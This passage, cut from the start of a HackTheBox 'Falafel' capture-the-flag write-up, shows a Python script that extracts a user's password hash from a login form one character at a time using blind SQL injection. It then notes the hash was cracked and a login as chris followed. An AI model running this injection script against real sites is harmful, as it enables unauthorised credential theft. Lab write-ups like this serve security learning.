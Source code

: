 ```py
    list = string.ascii_letters + string.digits
    limit = 1
    iterator = 0
    print("The hash for username %s is..." %username)
    while(iterator < len(list)):
        for c in list[iterator]:
            payload = "username=%s'AND+substring(password,%s,1)='%s'--+-&password=test" %(username,limit,c)
            res = requests.post(url, data=payload, proxies=proxies, headers=headers)
            if "Try again.." not in res.text:
                password.append(c)
                limit = limit + 1
                sys.stdout.write(c)
                sys.stdout.flush()
                iterator = 1
            else:
                iterator = iterator + 1
                password = []
    print()

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-u', '--username', help='Username to try to extract the hash value', required=True)
    args = parser.parse_args()

    rhost = args.target
    username = args.username

    '''Here we call the functions'''
    # Let's get the user hash
    hashExtract(rhost,username)

if __name__ == '__main__':
    main()
```

We crack it and it's juggling the passwrod

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-27-HackTheBox-Falafel/2021-09-27-HackTheBox-Falafel%2001:26:06.png)

The admin one was not possible to crack

We login as chris

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-27-HackTheBox-Falafel/2021-09-27-HackTheBox-Falafel%2001:26:27.png)

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-27-HackTheBox-Falafel/2021-09-27-HackTheBox-Falafel%2001:26:44.png)

Nothing special.

